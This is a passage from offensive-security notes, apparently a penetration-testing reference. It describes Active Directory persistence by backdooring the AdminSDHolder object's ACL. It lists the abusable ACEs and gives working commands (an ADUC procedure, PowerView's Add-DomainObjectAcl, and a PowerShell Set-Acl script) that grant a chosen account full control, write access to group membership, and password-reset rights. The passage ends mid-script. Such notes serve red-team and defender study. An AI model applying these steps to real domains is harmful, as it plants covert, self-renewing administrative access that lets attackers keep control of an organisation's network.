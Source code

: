 
A number of `ACE` may be used to maintain persistence by creating a control
path through `AdminSDHolder` object's `ACL`:
  - `GenericAll`
  - `WriteOwner`
  - `WriteDacl`
  - `WriteProperty` / `GenericWrite` to all properties or property that can be
    used to take control of the object (`Member` attribute for groups,
    `Script-Path` for users, etc.)
  - `AllExtendedRights` or `ExtendedRight` that grant control over the object
    (such as `ForceChangePassword`)

For more details on the aforementioned `ACE`, and techniques and tools to
leverage them, refer to the `[ActiveDirectory] ACL exploiting` note (section
`Users and groups permissions exploitation`).

The `ACL` modification can be done with `mmc.exe`'s `Active Directory Users and
Computers (ADUC)` graphical snap-in or in PowerShell using the `PowerView`'s
`Add-DomainObjectAcl` and `ActiveDirectory` module's `Get-Acl` / `Set-Acl`
cmdlets.

```
# Procedure to the modify AdminSDHolder object's ACL using ADUC.
# ADUC cannot be used to set more fine grained rights on the AdminSDHolder object (such as ExtendedRight's ForceChangePassword or WriteProperty to the Member attribute).
mmc.exe -> File -> Add/Remove Snap-in... (Ctrl + M) -> Active Directory Users and Computers
-> <DOMAIN> -> System -> right click AdminSDHolder -> Properties -> Security -> Advanced -> Add
-> Select a principal
-> Type: Allow
-> Applies to: This object only
-> Permissions: FullControl / Write all properties / Modify permissions / Modify owner

# Automated modification using PowerView's Add-DomainObjectAcl to grant the GenericAll and ExtendedRight's ForceChangePassword rights.
# The WriteMembers option is documented as WriteProperty to the Member attribute but is non functional.
Add-DomainObjectAcl -Verbose -TargetIdentity "CN=AdminSDHolder,CN=System,<DOMAIN_ROOT>" -PrincipalIdentity <SamAccountName | DistinguishedName | SID | GUID> -Rights <All | ResetPassword>

# Manual modification using PowerShell ActiveDirectory module, that can be used to set specific ACE.
$AdminSDHolder = "AD:\CN=AdminSDHolder,CN=System,<DOMAIN_ROOT_OBJECT>"
$User = '<USERNAME>'
$UserSID = [System.Security.Principal.SecurityIdentifier] $(Get-ADUser $User).SID
$AdminSDHolderACL = Get-ACL -Path $AdminSDHolder
# Adds the ACE GenericAll.
$ACE_FullControl = New-Object System.DirectoryServices.ActiveDirectoryAccessRule(
    $UserSID,
    [System.DirectoryServices.ActiveDirectoryRights]::GenericAll,
    [System.Security.AccessControl.AccessControlType]::Allow,
    [DirectoryServices.ActiveDirectorySecurityInheritance]::None
)
$AdminSDHolderACL.AddAccessRule($ACE_FullControl)
# Adds the ACE WriteProperty to the Member attribute.
$ACE_WriteMember = New-Object System.DirectoryServices.ActiveDirectoryAccessRule(
    $UserSID,
    [System.DirectoryServices.ActiveDirectoryRights]::WriteProperty,
    [System.Security.AccessControl.AccessControlType]::Allow,
    "bf9679c0-0de6-11d0-a285-00aa003049e2",
    [DirectoryServices.ActiveDirectorySecurityInheritance]::None
)
$AdminSDHolderACL.AddAccessRule($ACE_WriteMember)
# Adds the ACE ExtendedRight's User-Force-Change-Password.
$ACE_ResetPassword = New-Object System.DirectoryServices.ActiveDirectoryAccessRule(
    $UserSID,
    [System.DirectoryServices.ActiveDirectoryRights]::ExtendedRight,
```
